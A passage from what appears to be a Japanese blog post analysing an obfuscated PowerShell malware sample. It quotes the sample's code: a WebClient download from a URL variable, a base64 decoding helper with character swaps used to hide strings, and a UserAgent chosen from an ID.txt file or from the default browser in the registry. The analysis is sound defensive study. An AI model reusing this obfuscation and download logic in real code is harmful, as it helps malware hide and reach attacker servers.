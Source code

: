 つまり、この`$DPcRrkQgWdnfmentNDcOkAbnVmdTyy`はwebclientモジュールですので、この後HTTPアクセスに使われそうです。この変数は今後は`webclient`として次を見てみましょう。  

```ps
    $webclient.Headers.Add((VyXbkVlPzUKluabJiFNN('VXNlckFnZW50')), $qppplrEOBZNdFelMdOmXMfUkoYXgXok[0])
    $lOqwgGQsNavCtAOJewqIdONJUgyZiQBOIX = $webclient.DownloadString($FexoWHjAPrYEkkBkKRWuGvaZOJHkzldC)
    if ($lOqwgGQsNavCtAOJewqIdONJUgyZiQBOIX -eq "" ) {
        exit
    }
```

ヘッダ追加をしている個所は、関数`VyXbkVlPzUKluabJiFNN`が呼ばれてますが、内容はbase64と一部の文字列リプレースのようです。  
デコードしてみると「UserAgent」をセットしているようです。

```ps
function VyXbkVlPzUKluabJiFNN {
    param(
        [parameter(Mandatory = $true)]
        [System.String]$DOugIUomVYjWzIxkycStTOlZ
    )
    return gs -bb ([System.Convert]::FromBase64String($DOugIUomVYjWzIxkycStTOlZ.Replace('-', 'H').Replace('@', 'a')))
}
```

では、UserAgentの内容がどうなるか、というとまず、ID.txtというファイルがスクリプトと同パスにあるかどうかの判定があります。  

- スクリプトと同パスに「ID.txt」がある場合、ID.txtの2行目をuserAgentにセット

```ps
if (Test-Path -Path ($mainpath + "ID.txt")) {
    $faNOVrjmKSnSrwyojEgmRxv = Get-Content ($mainpath + "ID.txt")
    $qppplrEOBZNdFelMdOmXMfUkoYXgXok += $faNOVrjmKSnSrwyojEgmRxv[1]
}
```

ファイルがない場合は、レジストリ内容などからスイッチしています。  
例えば、以下です。

```ps
    $qkDcoRVFGOWSxiwFjpIhMowsklDjNXgbQ = Get-ChildItem -Path (VyXbkVlPzUKluabJiFNN('UmVn@XN0cnk6OkhLQ1VcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcU2hlbGxcQXNzb2NpYXRpb25zXFVybEFzc29j@WF0@W9uc1xod-RwXA=='))
    $IUxNoPeAIlHVOuWAfKteQjORxeSEc = $qkDcoRVFGOWSxiwFjpIhMowsklDjNXgbQ.GetValue((VyXbkVlPzUKluabJiFNN('U-JvZ0lk'))).ToString().ToLower()
    if ($IUxNoPeAIlHVOuWAfKteQjORxeSEc.Contains((VyXbkVlPzUKluabJiFNN('Y2hyb21l')))) {
        $qppplrEOBZNdFelMdOmXMfUkoYXgXok += (VyXbkVlPzUKluabJiFNN('TW96@WxsYS81LjAgKFdpbmRvd3MgTlQgMTAuMDsgV2luNjQ7I-g2NCkgQXBwbGVXZWJL@XQvNTM3LjM2IChLSFRNTCwgbGlrZSB-ZWNrbykgQ2hyb21lLzEwMi4wLjAuMCBTYWZhcmkvNTM3LjM2'))
    }
```

これは、以下を見てます。
- パス： Registry::HKCU\SOFTWARE\Microsoft\Windows\Shell\Associations\UrlAssociations\http\
- チェック内容： ProgId == chromeであるか
